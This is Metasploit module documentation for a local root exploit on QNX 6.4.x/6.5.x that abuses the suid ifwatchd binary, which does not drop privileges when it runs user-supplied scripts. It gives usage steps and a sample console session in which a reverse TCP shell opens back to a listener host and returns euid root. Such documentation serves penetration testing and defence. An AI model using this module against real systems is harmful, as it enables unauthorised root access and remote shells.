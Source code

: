 ## Description

  This module attempts to gain root privileges on QNX 6.4.x and 6.5.x
  systems by exploiting the `ifwatchd` suid executable.


## Vulnerable Application

  `ifwatchd` allows users to specify scripts to execute using the `-A`
  command line argument; however, it does not drop privileges when
  executing user-supplied scripts, resulting in execution of arbitrary
  commands as root.

  This module has been tested successfully on:

  * QNX Neutrino 6.5.0 (x86)
  * QNX Neutrino 6.5.0 SP1 (x86)

  QNX Neutrino 6.5.0 Service Pack 1 is available here:

  * http://www.qnx.com/download/feature.html?programid=23665


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/qnx/local/ifwatchd_priv_esc`
  3. `set session <ID>`
  4. `run`
  5. You should get a *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf5 > use exploit/qnx/local/ifwatchd_priv_esc
  msf5 exploit(qnx/local/ifwatchd_priv_esc) > set session 1 
  session => 1
  msf5 exploit(qnx/local/ifwatchd_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(qnx/local/ifwatchd_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing interface arrival event script...
  [*] Executing /sbin/ifwatchd...
  [*] Command shell session 2 opened (172.16.191.188:4444 -> 172.16.191.215:65500) at 2018-03-22 15:18:48 -0400

  id
  uid=100(test) gid=100 euid=0(root)
  uname -a
  QNX localhost 6.5.0 2012/06/20-13:50:50EDT x86pc x86
  ```

